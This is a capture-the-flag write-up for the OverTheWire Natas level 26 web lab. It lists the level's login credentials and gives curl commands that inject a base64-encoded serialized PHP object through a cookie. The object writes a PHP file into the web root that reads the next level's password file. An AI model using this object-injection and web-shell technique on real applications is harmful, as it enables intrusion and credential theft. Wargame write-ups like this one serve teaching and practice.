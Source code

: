 # How to get access

If the password has changed, then we might be able to find it on learnit.


1. Go to the URL: [http://natas26.natas.labs.overthewire.org](http://natas26.natas.labs.overthewire.org)
2. Login with the username: "natas26" and password: "cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE"
3. make a drawing so we get a cookie
4. Run the test.php to get the base64 encoded code
5. Change the cookie to the new value
6. Refresh the page and you will get an error message
7. Go to the URL: [http://natas26.natas.labs.overthewire.org/img/myLogKali.php](http://natas26.natas.labs.overthewire.org/img/myLogKali.php)

## With terminal

### Make the base64 encoded php code

```bash
php test.php

# or use https://www.programiz.com/php/online-compiler/
```

### Use curl to inject the cookie

```bash
curl -s --user natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE --cookie "drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbXlMb2dLYWxpLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjE0OiJTdGFydCBsb2dnaW5nCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUyOiI8cGhwIHBhc3N0aHJ1KCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4KIjt9" http://natas26.natas.labs.overthewire.org
```

### Get the natas27 password

```bash
curl -s --user natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE http://natas26.natas.labs.overthewire.org/img/myLogKali.php
```

